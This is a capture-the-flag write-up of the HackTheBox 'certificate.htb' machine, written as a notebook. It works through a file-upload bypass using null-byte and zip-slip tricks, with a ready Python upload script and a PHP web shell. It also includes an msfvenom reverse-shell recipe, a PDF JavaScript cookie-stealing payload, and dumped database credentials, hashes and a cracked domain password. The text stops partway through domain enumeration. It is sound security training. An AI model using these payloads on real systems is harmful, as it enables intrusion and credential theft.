


# week3-certificate

## Engagement Notes

This box starts with a blog for classes with a registration page that lets you create a student/teacher account and register for classes. Upon registering one can submit homework assigments via a helpful php upload process. 

Either by using zipslip techniques to hide a path alongside a supported file type, or by inserting a nullbyte into the zipped payload, one can pass in a PHP file and execute it on the server. 

On the server is a db.php with credentials to the myql db backend. The mysql db backend has the user db for the web site. The user db contains bcrypted passwords for domain users, one of which is a help desk lead with a weak password.

Cracking this password gives access to a user with account operator privileges which can be used to do account takeovers on other users in the domain. A saved pcap in their account shows activity from another user which has the user.txt flag.

Using our original user account, we can continue to takeover other users until we find one with unique privileges. Using google, we quickly find an exploit for these se privileges that leads to full file system access. For whatever reason, this is insufficient to get to the administrator root.txt. 

Instead, we can exfiltrate the domain root certificate to forge auth credentials for the administrator user and log in this way to get the root.txt.

# Enumeration

### Set variables for further engagement


```python
import requests
from pprint import pprint

source =! ip address | grep tun | grep 10 | tr "/" " " | awk '{print $2}'
public_source = requests.get('https://ifconfig.co/ip').text
target = 'certificate.htb'
target_ip = '10.129.62.94'

print(f"source: {source}")
print(f"target: {target}")
```

    source: ['10.10.14.36']
    target: certificate.htb


### Port scan target


```python
!docker run -it --rm -v $(pwd):/app/target rustscan -a $target
```
    Scanning ports like it's my full-time job. Wait, it is.
    
    [~] The config file is expected to be at "/home/rustscan/.rustscan.toml"
    [!] File limit is lower than default batch size. Consider upping with --ulimit. May cause harm to sensitive servers
    [!] Your file limit is very small, which negatively impacts RustScan's speed. Use the Docker image, or up the Ulimit with '--ulimit 5000'. 
    Open 10.129.165.123:53
    Open 10.129.165.123:80
    Open 10.129.165.123:88
    Open 10.129.165.123:135
    Open 10.129.165.123:139
    Open 10.129.165.123:389
    Open 10.129.165.123:445
    Open 10.129.165.123:464
    Open 10.129.165.123:593
    Open 10.129.165.123:636
    Open 10.129.165.123:5985
    Open 10.129.165.123:49666
    Open 10.129.165.123:49686
    Open 10.129.165.123:49688
    Open 10.129.165.123:49685
    Open 10.129.165.123:49706
    Open 10.129.165.123:49724
    ^C


We see time services, we sync time services. Future kerberos auth will thank us.
```sh
[nix-shell:~/.nix]$ sudo rdate -s certificate.htb
```

## Web enumeration

### URL scan target


```python
!gobuster dir -u http://$target -w $(wordlists_path)/seclists/Discovery/Web-Content/directory-list-lowercase-2.3-small.txt -x txt,js,html,php -t 40 --timeout=6s -o gobuster-task.txt --retry
```

    ===============================================================
    Gobuster v3.6
    by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
    ===============================================================
    [+] Url:                     http://certificate.htb
    [+] Method:                  GET
    [+] Threads:                 40
    [+] Wordlist:                /nix/store/khjvbjjz3yazpgln3qb9nykyf4ypahcm-wordlists-collection/share/wordlists/seclists/Discovery/Web-Content/directory-list-lowercase-2.3-small.txt
    [+] Negative Status codes:   404
    [+] User Agent:              gobuster/3.6
    [+] Extensions:              php,txt,js,html
    [+] Timeout:                 6s
    ===============================================================
    Starting gobuster in directory enumeration mode
    ===============================================================
    /.html                (Status: 403) [Size: 304]
    /index.php            (Status: 200) [Size: 22420]
    /about.php            (Status: 200) [Size: 14826]
    /blog.php             (Status: 200) [Size: 21940]
    /login.php            (Status: 200) [Size: 9412]
    /register.php         (Status: 200) [Size: 10916]
    /header.php           (Status: 200) [Size: 1848]
    /contacts.php         (Status: 200) [Size: 10605]
    /static               (Status: 301) [Size: 343] [--> http://certificate.htb/static/]
    /footer.php           (Status: 200) [Size: 2955]
    /upload.php           (Status: 302) [Size: 0] [--> login.php]
    /courses.php          (Status: 302) [Size: 0] [--> login.php]
...
    /%c0.php              (Status: 403) [Size: 304]
    Progress: 408215 / 408220 (100.00%)
    ===============================================================
    Finished
    ===============================================================


```python
!gobuster dir -u http://$target/static/js/vendor -w $(wordlists_path)/seclists/Discovery/Web-Content/directory-list-lowercase-2.3-small.txt -x txt,js,html,php -t 40 --timeout=6s -o gobuster-task.txt --retry
```

    ===============================================================
    Gobuster v3.6
    by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
    ===============================================================
    [+] Url:                     http://certificate.htb/static/js/vendor
    [+] Method:                  GET
    [+] Threads:                 40
    [+] Wordlist:                /nix/store/khjvbjjz3yazpgln3qb9nykyf4ypahcm-wordlists-collection/share/wordlists/seclists/Discovery/Web-Content/directory-list-lowercase-2.3-small.txt
    [+] Negative Status codes:   404
    [+] User Agent:              gobuster/3.6
    [+] Extensions:              txt,js,html,php
    [+] Timeout:                 6s
    ===============================================================
    Starting gobuster in directory enumeration mode
    ===============================================================
    /.html                (Status: 403) [Size: 304]
    /%20                  (Status: 403) [Size: 304]
    /*checkout*           (Status: 403) [Size: 304]
    /*checkout*.php       (Status: 403) [Size: 304]
...
    /%c0.js               (Status: 403) [Size: 304]
    /%c0.txt              (Status: 403) [Size: 304]
    /%c0                  (Status: 403) [Size: 304]
    /%c0.html             (Status: 403) [Size: 304]
    /%c0.php              (Status: 403) [Size: 304]
    Progress: 408215 / 408220 (100.00%)
    ===============================================================
    Finished
    ===============================================================


### A collection of our levers in the webapp



A reminder on how to use meterpreter for a reverse shell. We'll keep doing these in case we need it, but we won't in this challenge.

On attack box

```sh
msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.10.14.28 LPORT=9999 -f exe > shell.exe

msf6 > use exploit/multi/handler
[*] Using configured payload generic/shell_reverse_tcp
msf6 exploit(multi/handler) > set payload windows/meterpreter/reverse_tcp
payload => windows/meterpreter/reverse_tcp
msf6 exploit(multi/handler) > set lhost 10.10.14.28
lhost => 10.10.14.28
msf6 exploit(multi/handler) > set lport 9999
lport => 9999
msf6 exploit(multi/handler) > run
```

On victim

```sh
*Evil-WinRM* PS C:\Users\steph.cooper\Downloads> ./shell.exe
```


```sh
# PHP revshell, dont' know where it landed, no errors
[nix-shell:~/ctf/htb/season8/week3-certificate]$ zip -r assignment.zip sub
  adding: sub/ (stored 0%)
  adding: sub/revshell.php (deflated 60%)

# msfvenom attempt, 400 error with .pdf.exe embedded
[nix-shell:~/ctf/htb/season8/week3-certificate]$ zip -r assignment.zip shell.pdf.exe 
  adding: shell.pdf.exe (deflated 40%)

```



This enumeration is just-in-case, we have enough surface area at this point to justify spending a little time anyway. No other vhosts are identified regardless.


```python
!gobuster vhost -u http://certificate.htb --domain certificate.htb --append-domain -w $(wordlists_path)/seclists/Discovery/DNS/subdomains-top1million-5000.txt
```

    ===============================================================
    Gobuster v3.6
    by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
    ===============================================================
    [+] Url:             http://certificate.htb
    [+] Method:          GET
    [+] Threads:         10
    [+] Wordlist:        /nix/store/khjvbjjz3yazpgln3qb9nykyf4ypahcm-wordlists-collection/share/wordlists/seclists/Discovery/DNS/subdomains-top1million-5000.txt
    [+] User Agent:      gobuster/3.6
    [+] Timeout:         10s
    [+] Append Domain:   true
    ===============================================================
    Starting gobuster in VHOST enumeration mode
    ===============================================================
    Progress: 4989 / 4990 (99.98%)
    ===============================================================
    Finished
    ===============================================================


```python
!curl -I http://$target
```

    HTTP/1.1 200 OK
    Date: Sun, 01 Jun 2025 03:56:40 GMT
    Server: Apache/2.4.58 (Win64) OpenSSL/3.1.3 PHP/8.0.30
    X-Powered-By: PHP/8.0.30
    Set-Cookie: PHPSESSID=2fhaq71h3i7nbcdra6l4li3lfl; path=/; HttpOnly
    Expires: Thu, 19 Nov 1981 08:52:00 GMT
    Cache-Control: no-store, no-cache, must-revalidate
    Pragma: no-cache
    Content-Type: text/html; charset=UTF-8
    


```sh
[nix-shell:~/ctf/htb/season8/week3-certificate]$ zip -r assignment.zip revshell.ps1 
  adding: revshell.ps1 (deflated 53%)
```


Ultimately there were 2 ways to do this, the first one is my MODIFIED method of injecting a nullbyte into the name of the payload inside a zip file, this is my preferred way of uploading a php file to the server. The second way is to use a zip slip technique to write a file with a path traversal in the name, this is my fallback method. Specifically it works by zipping one path with a payload, and an accepted file in the root path. Zipping each of these seperately and then catting them together works.

> In hindsigth looking at the code, the path of the zip is passed directly into a winrar extract php exec() function, so this could have been a 3rd vector as well.


```xml
/S /JavaScript
/JS (app.alert\(1\); Object.getPrototypeOf(function*(){}).constructor = null; ((function*(){}).constructor("document.write('<script>confirm(document.cookie);</script><iframe src=https://14.rs>');"))().next();)
```


This is a base64 of a pdf template with JS injections similar to what's seen above


```python
import base64
pdftemplate = base64.b64decode("JVBERi0xLjUKJfb<snip>M2MAolJUVPRgo=")
```

Here we're going to automate a bunch of stuff because registering and logging in is a pain, but managing our zip process is even more of a pain.

Read the code if you can, but the gist is as such: We're going to make a zip file, and the contents of the zip file we're going to name with various payloads. We need our nested zip file to have embedded byte code to trick our unzipper into doing silly things.


```python
import requests
from pprint import pprint
import zipfile
import random
import string
import io
import re

s = requests.Session()

def register(firstname, lastname, username, password):
    userrand = f"{username}-{random.random()}"
    data = {
       "first_name":  f"{firstname}-{random.random()}",
       "last_name": f"{lastname}-{random.random()}",
       "email": f"{firstname}@{random.random()}.com",
       "username": userrand,
       "password": password,
       "password-confirm": password,
       "role": "student"
    }
    r = s.post(f"http://{target}/register.php",data=data)
    print(userrand, password)
    return userrand

def login(username,password):
    data = {
        "username": username,
        "password": password
    }
    r = s.post(f"http://{target}/login.php", data=data)
    return r.status_code

username = f"tokugero"
password = "tokugero"
userrand = register("toku", "gero", username, password)
login(userrand, password)

def extension_exploit(newtemplate, target, extension):
    def zip_byte_string(byte_string, extension=extension):
        """Zip a byte string with a randomized filename.
        
        Args:
            byte_string (bytes): The byte string to be zipped.
            extension (str): File extension for the archived file.
        
        Returns:
            bytes: The zipped data as bytes.
        """
        # Generate a random filename
        random_name = ''.join(random.choices(string.ascii_letters + string.digits, k=12)) + extension
        
        # Create an in-memory zip file
        zip_buffer = io.BytesIO()
        
        with zipfile.ZipFile(zip_buffer, 'w') as zipf:
            # Add the byte string to the zip with the random name
            zipf.writestr("original.pdf", byte_string)
        
        # Get the zipped data as bytes
        zip_renamed = io.BytesIO()

        with zipfile.ZipFile(zip_buffer, 'r') as zip_in: #<--- here we're making our parent zip file
            with zipfile.ZipFile(zip_renamed, 'w') as zip_out: #<--- here we're making a child zip file where we can control the filename by the byte
                for entry in zip_in.infolist():
                    data = zip_in.read(entry.filename)
                    if entry.filename == "original.pdf":
                        entry.filename = random_name
                    zip_out.writestr(entry, data)
        
        zip_buffer.close()

        zip_data_renamed = zip_renamed.getvalue()
        zip_renamed.close()

        return zip_data_renamed

    # Zip it with a random name
    zipped_data = zip_byte_string(newtemplate)

    files = {
        "info": (None, "How to be the next Leonardo Da Vinci! - Final"),
        "quizz_id": (None, "36"),
        "file": ("assignment.zip", zipped_data, "application/zip")
    }

    params = {
        "s_id": 36
    }

    submit = s.post(f"http://{target}/upload.php?s_id=36", files=files)

    upload = re.search(r".*href='?(.*)'>HERE", submit.text)
    #print(submit.text)
    if upload:
        return f"http://{target}/{upload.group(1)}"
    return "No upload returned"
```

    tokugero-0.1090536292027513 tokugero


Here's the payload work that all the above is set up to push.


```python
payload = b'<?=`$_GET[0]`?>'
newtemplate = pdftemplate.replace(b'{PAYLOAD}', payload)

print(extension_exploit(payload, target, '.php\x00.pptx')) #<--- Here we're using a quick method to test lots of payloads, 
                                                                # the one that worked is a nullbyte before the tested extension 
                                                                # such that PHP will allow the file but the future unzip 
                                                                # function will use just the php extension of the nested file
```

    http://certificate.htb/static/uploads/3644d45c1513d9df8d3841fd55c33e33/NFPuFIHD1sW3.php .pptx


This is the alternative method using the zipslip method to load in a php revshell
```sh
 zip -r pdf.zip 000.pdf    
  adding: 000.pdf (deflated 15%)
 zip -r payload.zip payload
  adding: payload/ (stored 0%)
  adding: payload/revshellsmall.php (deflated 26%)
  adding: payload/phpinfo.php (stored 0%)
  adding: payload/dbdump.php (deflated 45%)
 cat payload.zip pdf.zip > assignment.zip


 nc -lvn 9999                          
Listening on 0.0.0.0 9999
Connection received on 10.129.61.25 49634
```
And here we're in the system!
```sh

PS C:\xampp\htdocs\certificate.htb\static\uploads\ddb7694e428c336550fed63784feb991\payload> dir


    Directory: C:\xampp\htdocs\certificate.htb\static\uploads\ddb7694e428c336550fed63784feb991\payload


Mode                LastWriteTime         Length Name                                                                  
----                -------------         ------ ----                                                                  
-a----         6/1/2025  12:29 PM             20 phpinfo.php                                                           
-a----         6/1/2025  12:39 PM            113 revshellsmall.php                                                     


PS C:\xampp\htdocs\certificate.htb\static\uploads\ddb7694e428c336550fed63784feb991\payload> cd ..
PS C:\xampp\htdocs\certificate.htb\static\uploads\ddb7694e428c336550fed63784feb991> dir


    Directory: C:\xampp\htdocs\certificate.htb\static\uploads\ddb7694e428c336550fed63784feb991


Mode                LastWriteTime         Length Name                                                                  
----                -------------         ------ ----                                                                  
d-----         6/1/2025  12:39 PM                payload                                                               
-a----         6/1/2025  12:27 PM             17 phpinfo.php                                                           


PS C:\xampp\htdocs\certificate.htb\static\uploads\ddb7694e428c336550fed63784feb991> cd ..
PS C:\xampp\htdocs\certificate.htb\static\uploads> dir


    Directory: C:\xampp\htdocs\certificate.htb\static\uploads


Mode                LastWriteTime         Length Name                                                                  
----                -------------         ------ ----                                                                  
d-----         6/1/2025   8:09 PM                371dcc2325f3edac50d1371fb8b09481                                      
d-----         6/1/2025   8:11 PM                6fd6ce565d8e0c484086e1debee16872                                      
d-----         6/1/2025   8:23 PM                74bc46a04239a53253fcbcc9f7f7e1a2                                      
d-----         6/1/2025   8:30 PM                ddb7694e428c336550fed63784feb991                                      


PS C:\xampp\htdocs\certificate.htb\static\uploads> cd ..
PS C:\xampp\htdocs\certificate.htb\static> dir


    Directory: C:\xampp\htdocs\certificate.htb\static


Mode                LastWriteTime         Length Name                                                                  
----                -------------         ------ ----                                                                  
d-----       12/26/2024   1:42 AM                css                                                                   
d-----       12/26/2024   1:42 AM                fonts                                                                 
d-----       12/26/2024   1:49 AM                img                                                                   
d-----       12/26/2024   1:50 AM                js                                                                    
d-----         6/1/2025   8:24 PM                uploads                                                               


PS C:\xampp\htdocs\certificate.htb\static> cd ..
PS C:\xampp\htdocs\certificate.htb> dir


    Directory: C:\xampp\htdocs\certificate.htb


Mode                LastWriteTime         Length Name                                                                  
----                -------------         ------ ----                                                                  
d-----       12/26/2024   1:49 AM                static                                                                
-a----       12/24/2024  12:45 AM           7179 about.php                                                             
-a----       12/30/2024   1:50 PM          17197 blog.php                                                              
-a----       12/30/2024   2:02 PM           6560 contacts.php                                                          
-a----       12/24/2024   6:10 AM          15381 course-details.php                                                    
-a----       12/24/2024  12:53 AM           4632 courses.php                                                           
-a----       12/23/2024   4:46 AM            549 db.php                                                                
-a----       12/22/2024  10:07 AM           1647 feature-area-2.php                                                    
-a----       12/22/2024  10:22 AM           1331 feature-area.php                                                      
-a----       12/22/2024  10:16 AM           2955 footer.php                                                            
-a----       12/23/2024   5:13 AM           2351 header.php                                                            
-a----       12/24/2024  12:52 AM           9497 index.php                                                             
-a----       12/25/2024   1:34 PM           5908 login.php                                                             
-a----       12/23/2024   5:14 AM            153 logout.php                                                            
-a----       12/24/2024   1:27 AM           5321 popular-courses-area.php                                              
-a----       12/25/2024   1:27 PM           8240 register.php                                                          
-a----       12/28/2024  11:26 PM          10366 upload.php                                                            


PS C:\xampp\htdocs\certificate.htb> type db.php
<?php
// Database connection using PDO
try {
    $dsn = 'mysql:host=localhost;dbname=Certificate_WEBAPP_DB;charset=utf8mb4';
    $db_user = 'certificate_webapp_user'; // Change to your DB username
    $db_passwd = 'cert!f!c@teDBPWD'; // Change to your DB password
    $options = [
        PDO::ATTR_ERRMODE => PDO::ERRMODE_EXCEPTION,
        PDO::ATTR_DEFAULT_FETCH_MODE => PDO::FETCH_ASSOC,
    ];
    $pdo = new PDO($dsn, $db_user, $db_passwd, $options);
} catch (PDOException $e) {
    die('Database connection failed: ' . $e->getMessage());
}
?>
PS C:\xampp\htdocs\certificate.htb> 

Because we can't really easily work with the db from inside the revshell, we just copy the db.php and add a bit more function to it to expose the DB on the site

# Copying the db.php and adding a table dumper
Table: users 
```js
{ "id": "1", "first_name": "Lorra", "last_name": "Armessa", "username": "Lorra.AAA", "email": "lorra.aaa@certificate.htb", "password": "$2y$04$bZs2FUjVRiFswY84CUR8ve02ymuiy0QD23XOKFuT6IM2sBbgQvEFG", "created_at": "2024-12-23 12:43:10", "role": "teacher", "is_active": "1" } 
{ "id": "6", "first_name": "Sara", "last_name": "Laracrof", "username": "Sara1200", "email": "sara1200@gmail.com", "password": "$2y$04$pgTOAkSnYMQoILmL6MRXLOOfFlZUPR4lAD2kvWZj.i\/dyvXNSqCkK", "created_at": "2024-12-23 12:47:11", "role": "teacher", "is_active": "1" } 
{ "id": "7", "first_name": "John", "last_name": "Wood", "username": "Johney", "email": "johny009@mail.com", "password": "$2y$04$VaUEcSd6p5NnpgwnHyh8zey13zo\/hL7jfQd9U.PGyEW3yqBf.IxRq", "created_at": "2024-12-23 13:18:18", "role": "student", "is_active": "1" } 
{ "id": "8", "first_name": "Havok", "last_name": "Watterson", "username": "havokww", "email": "havokww@hotmail.com", "password": "$2y$04$XSXoFSfcMoS5Zp8ojTeUSOj6ENEun6oWM93mvRQgvaBufba5I5nti", "created_at": "2024-12-24 09:08:04", "role": "teacher", "is_active": "1" } 
{ "id": "9", "first_name": "Steven", "last_name": "Roman", "username": "stev", "email": "steven@yahoo.com", "password": "$2y$04$6FHP.7xTHRGYRI9kRIo7deUHz0LX.vx2ixwv0cOW6TDtRGgOhRFX2", "created_at": "2024-12-24 12:05:05", "role": "student", "is_active": "1" } 
{ "id": "10", "first_name": "Sara", "last_name": "Brawn", "username": "sara.b", "email": "sara.b@certificate.htb", "password": "$2y$04$CgDe\/Thzw\/Em\/M4SkmXNbu0YdFo6uUs3nB.pzQPV.g8UdXikZNdH6", "created_at": "2024-12-25 21:31:26", "role": "admin", "is_active": "1" } 
```

## Windows Enumeration

### Start Bloodhound

We'll be using a lot of this as this AD proves to be pretty complex


```python
!mkdir -p ./bloodhounddumps
!docker compose --project-directory ~/.local/build/programs/bloodhound --progress quiet down 
!docker compose --project-directory ~/.local/build/programs/bloodhound --progress quiet up -d
print("Connect to bloodhound now at http://localhost:8080 with username 'admin' password 'bloodhound'")
print("To reset the entire instance, do docker compose down --volumes")
```

    Connect to bloodhound now at http://localhost:8080 with username 'admin' password 'bloodhound'
    To reset the entire instance, do docker compose down --volumes


We find our initial user from the user list. Only two of them have a @certificate.htb email, and only one with a crackable password with hashcat

```sh
 tokugero@desktop  ~/tmp  hashcat -m 3200 sara.b.hash $(wordlists_path)/rockyou.txt --show
$2y$04$CgDe/Thzw/Em/M4SkmXNbu0YdFo6uUs3nB.pzQPV.g8UdXikZNdH6:Blink182


```python
domain = target.split(".")[0]
domain_spn = ','.join([f"dc={dc}," for dc in target.split(".")])
initialuser = "sara.b"
initialpassword = "Blink182"
```

### Enumerate


```python
!enum4linux-ng $target -u $initialuser -p $initialpassword
```

    ENUM4LINUX - next generation (v1.3.4)
    
     ==========================
    |    Target Information    |
     ==========================
    [*] Target ........... certificate.htb
    [*] Username ......... 'sara.b'
    [*] Random Username .. 'wkosasvn'
    [*] Password ......... 'Blink182'
    [*] Timeout .......... 5 second(s)
    
     ========================================
    |    Listener Scan on certificate.htb    |
     ========================================
    [*] Checking LDAP
    [+] LDAP is accessible on 389/tcp
    [*] Checking LDAPS
    [+] LDAPS is accessible on 636/tcp
    [*] Checking SMB
    [+] SMB is accessible on 445/tcp
    [*] Checking SMB over NetBIOS
    [+] SMB over NetBIOS is accessible on 139/tcp
    
     =======================================================
    |    Domain Information via LDAP for certificate.htb    |
     =======================================================
    [*] Trying LDAP
    [+] Appears to be root/parent DC
    [+] Long domain name is: certificate.htb
    
     ==============================================================
    |    NetBIOS Names and Workgroup/Domain for certificate.htb    |
     ==============================================================
    [-] Could not get NetBIOS names information via 'nmblookup': timed out
    
     ============================================
    |    SMB Dialect Check on certificate.htb    |
     ============================================
    [*] Trying on 445/tcp
    [+] Supported dialects and settings:
    Supported dialects:
      SMB 1.0: false
      SMB 2.02: true
      SMB 2.1: true
      SMB 3.0: true
      SMB 3.1.1: true
    Preferred dialect: SMB 3.0
    SMB1 only: false
    SMB signing required: true
    
     ==============================================================
    |    Domain Information via SMB session for certificate.htb    |
     ==============================================================
    [*] Enumerating via unauthenticated SMB session on 445/tcp
    [+] Found domain information via SMB
    NetBIOS computer name: DC01
    NetBIOS domain name: CERTIFICATE
    DNS domain: certificate.htb
    FQDN: DC01.certificate.htb
    Derived membership: domain member
    Derived domain: CERTIFICATE
    
     ============================================
    |    RPC Session Check on certificate.htb    |
     ============================================
    [*] Check for null session
    [+] Server allows session using username '', password ''
    [*] Check for user session
    [+] Server allows session using username 'sara.b', password 'Blink182'
    [*] Check for random user
    [-] Could not establish random user session: STATUS_LOGON_FAILURE
    
     ======================================================
    |    Domain Information via RPC for certificate.htb    |
     ======================================================
    [+] Domain: CERTIFICATE
    [+] Domain SID: S-1-5-21-515537669-4223687196-3249690583
    [+] Membership: domain member
    
     ==================================================
    |    OS Information via RPC for certificate.htb    |
     ==================================================
    [*] Enumerating via unauthenticated SMB session on 445/tcp
    [+] Found OS information via SMB
    [*] Enumerating via 'srvinfo'
    [+] Found OS information via 'srvinfo'
    [+] After merging OS information we have the following result:
    OS: Windows 10, Windows Server 2019, Windows Server 2016
    OS version: '10.0'
    OS release: '1809'
    OS build: '17763'
    Native OS: not supported
    Native LAN manager: not supported
    Platform id: '500'
    Server type: '0x80102b'
    Server type string: Sv PDC Tim NT
    
     ========================================
    |    Users via RPC on certificate.htb    |
     ========================================
    [*] Enumerating users via 'querydispinfo'
    [+] Found 18 user(s) via 'querydispinfo'
    [*] Enumerating users via 'enumdomusers'
    [+] Found 18 user(s) via 'enumdomusers'
    [+] After merging user results we have 18 user(s) total:
    '1105':
      username: Kai.X
      name: Kai Xeon
      acb: '0x00000210'
      description: (null)
    '1109':
      username: Sara.B
      name: Sara Baradek
      acb: '0x00000210'
      description: (null)
    '1111':
      username: John.C
      name: John Crawl
      acb: '0x00000210'
      description: (null)
    '1112':
      username: Aya.W
      name: Aya Wood
      acb: '0x00000210'
      description: (null)
    '1113':
      username: Nya.S
      name: Nya Sadawn
      acb: '0x00000210'
      description: (null)
    '1114':
      username: Maya.K
      name: Maya Kazanof
      acb: '0x00000210'
      description: (null)
    '1115':
      username: Lion.SK
      name: Lion S Kanady
      acb: '0x00000210'
      description: (null)
    '1116':
      username: Eva.F
      name: Eva Ford
      acb: '0x00000210'
      description: (null)
    '1117':
      username: Ryan.K
      name: Ryan Kareem
      acb: '0x00000210'
      description: (null)
    '1119':
      username: akeder.kh
      name: Akeder Kham
      acb: '0x00000210'
      description: (null)
    '1121':
      username: kara.m
      name: Kara Marcos
      acb: '0x00000210'
      description: (null)
    '1124':
      username: Alex.D
      name: Alex Disel
      acb: '0x00000210'
      description: (null)
    '1127':
      username: karol.s
      name: Karol Sam
      acb: '0x00000210'
      description: (null)
    '1128':
      username: saad.m
      name: Saad Maher
      acb: '0x00000210'
      description: (null)
    '1130':
      username: xamppuser
      name: (null)
      acb: '0x00000210'
      description: (null)
    '500':
      username: Administrator
      name: (null)
      acb: '0x00000210'
      description: Built-in account for administering the computer/domain
    '501':
      username: Guest
      name: (null)
      acb: '0x00000215'
      description: Built-in account for guest access to the computer/domain
    '502':
      username: krbtgt
      name: (null)
      acb: '0x00020011'
      description: Key Distribution Center Service Account
    
     =========================================
    |    Groups via RPC on certificate.htb    |
     =========================================
    [*] Enumerating local groups
    [+] Found 5 group(s) via 'enumalsgroups domain'
    [*] Enumerating builtin groups
    [+] Found 28 group(s) via 'enumalsgroups builtin'
    [*] Enumerating domain groups
    [+] Found 21 group(s) via 'enumdomgroups'
    [+] After merging groups results we have 54 group(s) total:
    '1101':
      groupname: DnsAdmins
      type: local
    '1102':
      groupname: DnsUpdateProxy
      type: domain
    '1104':
      groupname: Domain CRA Managers
      type: domain
    '1106':
      groupname: Finance
      type: domain
    '1107':
      groupname: HR
      type: domain
    '1108':
      groupname: Marketing
      type: domain
    '1110':
      groupname: Help Desk
      type: domain
    '1118':
      groupname: Domain Storage Managers
      type: domain
    '498':
      groupname: Enterprise Read-only Domain Controllers
      type: domain
    '512':
      groupname: Domain Admins
      type: domain
    '513':
      groupname: Domain Users
      type: domain
    '514':
      groupname: Domain Guests
      type: domain
    '515':
      groupname: Domain Computers
      type: domain
    '516':
      groupname: Domain Controllers
      type: domain
    '517':
      groupname: Cert Publishers
      type: local
    '518':
      groupname: Schema Admins
      type: domain
    '519':
      groupname: Enterprise Admins
      type: domain
    '520':
      groupname: Group Policy Creator Owners
      type: domain
    '521':
      groupname: Read-only Domain Controllers
      type: domain
    '522':
      groupname: Cloneable Domain Controllers
      type: domain
    '525':
      groupname: Protected Users
      type: domain
    '526':
      groupname: Key Admins
      type: domain
    '527':
      groupname: Enterprise Key Admins
      type: domain
    '544':
      groupname: Administrators
      type: builtin
    '545':
      groupname: Users
      type: builtin
    '546':
      groupname: Guests
      type: builtin
    '548':
      groupname: Account Operators
      type: builtin
    '549':
      groupname: Server Operators
      type: builtin
    '550':
      groupname: Print Operators
      type: builtin
    '551':
      groupname: Backup Operators
      type: builtin
    '552':
      groupname: Replicator
      type: builtin
    '553':
      groupname: RAS and IAS Servers
      type: local
    '554':
      groupname: Pre-Windows 2000 Compatible Access
      type: builtin
    '555':
      groupname: Remote Desktop Users
      type: builtin
    '556':
      groupname: Network Configuration Operators
      type: builtin
    '557':
      groupname: Incoming Forest Trust Builders
      type: builtin
    '558':
      groupname: Performance Monitor Users
      type: builtin
    '559':
      groupname: Performance Log Users
      type: builtin
    '560':
      groupname: Windows Authorization Access Group
      type: builtin
    '561':
      groupname: Terminal Server License Servers
      type: builtin
    '562':
      groupname: Distributed COM Users
      type: builtin
    '568':
      groupname: IIS_IUSRS
      type: builtin
    '569':
      groupname: Cryptographic Operators
      type: builtin
    '571':
      groupname: Allowed RODC Password Replication Group
      type: local
    '572':
      groupname: Denied RODC Password Replication Group
      type: local
    '573':
      groupname: Event Log Readers
      type: builtin
    '574':
      groupname: Certificate Service DCOM Access
      type: builtin
    '575':
      groupname: RDS Remote Access Servers
      type: builtin
    '576':
      groupname: RDS Endpoint Servers
      type: builtin
    '577':
      groupname: RDS Management Servers
      type: builtin
    '578':
      groupname: Hyper-V Administrators
      type: builtin
    '579':
      groupname: Access Control Assistance Operators
      type: builtin
    '580':
      groupname: Remote Management Users
      type: builtin
    '582':
      groupname: Storage Replica Administrators
      type: builtin
    
     =========================================
    |    Shares via RPC on certificate.htb    |
     =========================================
    [*] Enumerating shares
    [+] Found 5 share(s):
    ADMIN$:
      comment: Remote Admin
      type: Disk
    C$:
      comment: Default share
      type: Disk
    IPC$:
      comment: Remote IPC
      type: IPC
    NETLOGON:
      comment: Logon server share
      type: Disk
    SYSVOL:
      comment: Logon server share
      type: Disk
    [*] Testing share ADMIN$
    [+] Mapping: DENIED, Listing: N/A
    [*] Testing share C$
    [+] Mapping: DENIED, Listing: N/A
    [*] Testing share IPC$
    [+] Mapping: OK, Listing: NOT SUPPORTED
    [*] Testing share NETLOGON
    [+] Mapping: OK, Listing: OK
    [*] Testing share SYSVOL
    [+] Mapping: OK, Listing: OK
    
     ============================================
    |    Policies via RPC for certificate.htb    |
     ============================================
    [*] Trying port 445/tcp
    [+] Found policy:
    Domain password information:
      Password history length: 24
      Minimum password length: 7
      Maximum password age: 41 days 23 hours 53 minutes
      Password properties:
      - DOMAIN_PASSWORD_COMPLEX: true
      - DOMAIN_PASSWORD_NO_ANON_CHANGE: false
      - DOMAIN_PASSWORD_NO_CLEAR_CHANGE: false
      - DOMAIN_PASSWORD_LOCKOUT_ADMINS: false
      - DOMAIN_PASSWORD_PASSWORD_STORE_CLEARTEXT: false
      - DOMAIN_PASSWORD_REFUSE_PASSWORD_CHANGE: false
    Domain lockout information:
      Lockout observation window: 1 minute
      Lockout duration: 1 minute
      Lockout threshold: 15
    Domain logoff information:
      Force logoff time: not set
    
     ============================================
    |    Printers via RPC for certificate.htb    |
     ============================================
    [+] No printers available
    
    Completed after 35.69 seconds


```python
!smbclient -L //$target -W 'certificate.htb' -U $initialuser -P $initialpassword
```

    Can't load /etc/samba/smb.conf - run testparm to debug it
    Failed to open /var/lib/samba/private/secrets.tdb
